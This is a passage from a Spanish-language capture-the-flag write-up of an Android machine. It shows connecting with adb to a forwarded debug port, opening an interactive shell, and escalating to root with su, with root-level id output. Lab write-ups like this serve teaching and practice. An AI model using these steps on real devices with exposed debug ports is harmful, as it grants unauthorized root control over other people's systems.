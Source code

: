 El comando se ha ejecutado correctamenta, para poder proseguir es necesario tener instalado adb para poder realizar la comunicacion.

```text
apt install adb  
```

Una vez instalado adb nos permite poder conectarnos a dispositivos que tengan la comunicacion debug instalada. Como sabemos que en este caso hemos realiado el port forward en el puerto 5555 unicamente hay que ejecutar.

```text
┌──(kali㉿kali)-[~]
└─$ adb connect 127.0.0.1:5555
connected to 127.0.0.1:5555
```
Ahora vamos a levantar una terminal interactiva por medio de adb, para ello vamos hacer uso del comando.
Nota: Para tener una shell como super usuario bastaria unicamente ejecutar su luego que nos haya devuelto la shell interactiva.
```text
┌──(kali㉿kali)-[~]┌──(kali㉿kali)-[~]
└─$ adb shell                 
x86_64:/ $ su
x86_64:/ $ id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
```
Tenemos los privelegios mas altos en el sistema, ahora unicamente queda buscando la flag de root.

#  Final

Hasta la proxima, si algun concepto no les quedo claro, los invito a ver las charlas que he dejado en la pagina principal para saber mas sonre pentest pentest en entornos android.

Saludos
